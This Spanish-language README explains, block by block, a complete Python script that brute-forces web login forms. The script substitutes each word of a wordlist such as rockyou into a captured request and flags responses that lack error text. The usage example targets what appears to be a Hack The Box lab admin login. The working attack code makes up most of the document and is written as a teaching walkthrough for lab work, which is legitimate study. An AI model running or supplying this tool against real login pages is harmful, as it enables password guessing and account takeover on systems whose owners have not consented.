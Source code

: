 Este script es un **fuzzer** que realiza ataques de fuerza bruta a formularios web. **Sustituye una marca específica en la solicitud (`MARKER`) por cada palabra de un diccionario y envía la solicitud modificada al servidor.** Luego, analiza las respuestas para detectar intentos exitosos.
_________
# Explicacion del codigo

```python
import requests
import argparse
```

📌 **Importaciones:**

- `requests`: Para enviar peticiones HTTP.
- `argparse`: Para manejar argumentos en la línea de comandos.

_____________________

```python
def parse_request(request_template):
    lines = request_template.strip().split("\n")
    method, path, _ = lines[0].split(" ")

```

📌 **Función `parse_request(request_template)`**

- **Divide la solicitud en líneas** (`strip().split("\n")`).
- **Extrae el método HTTP y la ruta** de la primera línea (`POST /login/ HTTP/1.1` → `POST`, `/login/`).

_____________________

```python
    headers = {}
    body = ""
    is_body = False
```

📌 **Inicializa variables:**

- `headers`: Para almacenar los encabezados HTTP.
- `body`: Para el contenido de la solicitud.
- `is_body`: Un indicador para saber cuándo hemos alcanzado el cuerpo de la solicitud.

_____________________

```python
    for line in lines[1:]:
        if line == "":
            is_body = True
            continue
```

📌 **Detecta cuándo empieza el cuerpo del request:**

- En HTTP, hay una línea en blanco que separa los **headers** del **cuerpo**.
- Cuando encuentra una línea vacía (`""`), **activa `is_body` para empezar a leer el cuerpo** en las siguientes líneas.

_____________________

```python
        if is_body:
            body += line + "\n"
        else:
            key, value = line.split(": ", 1)
            headers[key] = value
```

📌 **Procesa los encabezados y el cuerpo:**

- **Si `is_body` es `True`**, la línea se agrega al `body` (contenido del formulario).
- **Si `is_body` es `False`**, la línea es un encabezado HTTP y se almacena en el diccionario `headers`.

_____________________

```python
    return method, path, headers, body.strip()
```

📌 **Devuelve los datos extraídos:**

- **Método HTTP (POST, GET, etc.)**.
- **Ruta** (`/login/`).
- **Encabezados HTTP** (diccionario con claves y valores).
- **Cuerpo de la solicitud**, limpiando espacios extra.

_____________________

```python
def fuzz_request(request_template, wordlist_path, placeholder, url):
    method, path, headers, body = parse_request(request_template)
```

📌 **Función `fuzz_request(request_template, wordlist_path, placeholder, url)`**

- Llama a `parse_request()` para extraer los detalles de la solicitud.

_____________________

```python
    with open(wordlist_path, "r", encoding="utf-8", errors="ignore") as f:
        wordlist = [line.strip() for line in f]
```

📌 **Carga la lista de palabras (`wordlist`)**

- Abre el diccionario (`wordlist_path`) y lee cada línea.
- `strip()` elimina espacios o saltos de línea.
- `errors="ignore"` evita problemas con caracteres inválidos.

_____________________

```python
    for word in wordlist:
        modified_body = body.replace(placeholder, word)
```

📌 **Fuerza bruta con cada palabra de `wordlist`**

- **Reemplaza `MARKER` por la palabra del diccionario**.
- Así, `password=MARKER` se convierte en `password=123456`, `password=letmein`, etc.

_____________________

```python
        response = requests.request(method, url, headers=headers, data=modified_body, allow_redirects=False)
```

📌 **Envía la solicitud modificada**

- Usa `requests.request()` con:
    - Método (`POST`).
    - URL de destino.
    - Encabezados HTTP.
    - Cuerpo con la contraseña sustituida.
    - `allow_redirects=False`: Para evitar redirecciones automáticas.

_____________________

```python
        print(f"[*] Probando: {word} -> Código HTTP: {response.status_code}")
```

📌 **Muestra el intento en pantalla**

- Informa qué palabra se está probando y qué código de estado devuelve el servidor (200, 403, 500, etc.).

_____________________

```python
        if "Invalid" not in response.text and "incorrect" not in response.text:
            print(f"[+] ¡Contraseña encontrada!: {word}")
            break
```

📌 **Detecta éxito**

- Si la respuesta **no contiene "Invalid" o "incorrect"**, se asume que el inicio de sesión fue exitoso.
- **Muestra la contraseña correcta y detiene el ataque (`break`)**.

_____________________

```python
def main():
    parser = argparse.ArgumentParser(description="Herramienta de fuerza bruta HTTP.")
    parser.add_argument("-r", "--request", required=True, help="Archivo con la plantilla de la solicitud.")
    parser.add_argument("-w", "--wordlist", required=True, help="Lista de contraseñas.")
    parser.add_argument("-p", "--placeholder", required=True, help="Texto a reemplazar en la solicitud (ej: MARKER).")
    parser.add_argument("-u", "--url", required=True, help="URL de destino.")

    args = parser.parse_args()
```

📌 **Función `main()`**

- Define los argumentos de la línea de comandos:
    - `-r`: Archivo con la solicitud (`request.txt`).
    - `-w`: Lista de contraseñas (`rockyou.txt`).
    - `-p`: Marcador a reemplazar (`MARKER`).
    - `-u`: URL del formulario.

_____________________

```python
    with open(args.request, "r", encoding="utf-8") as f:
        request_template = f.read()
```

📌 **Lee la plantilla de solicitud (`request.txt`)**

- Se almacena en `request_template`.

_____________________

```python
    fuzz_request(request_template, args.wordlist, args.placeholder, args.url)
```

📌 **Llama a `fuzz_request()` con los parámetros de usuario**

- Ejecuta el ataque de fuerza bruta con la configuración elegida.

_____________________

```python
if __name__ == "__main__":
    main()
```

📌 **Ejecución del script**

- Si el script se ejecuta directamente, llama a `main()`.

_____________________

# Ejemplo de uso

```python
python3 intruder.py -r request.txt -w rockyou_utf8.txt -p MARKER -u http://magicgardens.htb/admin/login/?next=/admin/
```

![Pasted image 20250205175733](https://github.com/user-attachments/assets/ff3edab6-859e-452b-b80b-2b4118d47faa)


_(En esta ocasión, el código fue alterado para que se detuviera cuando la respuesta devolviera un código de estado 302, ya que ese era el objetivo)_
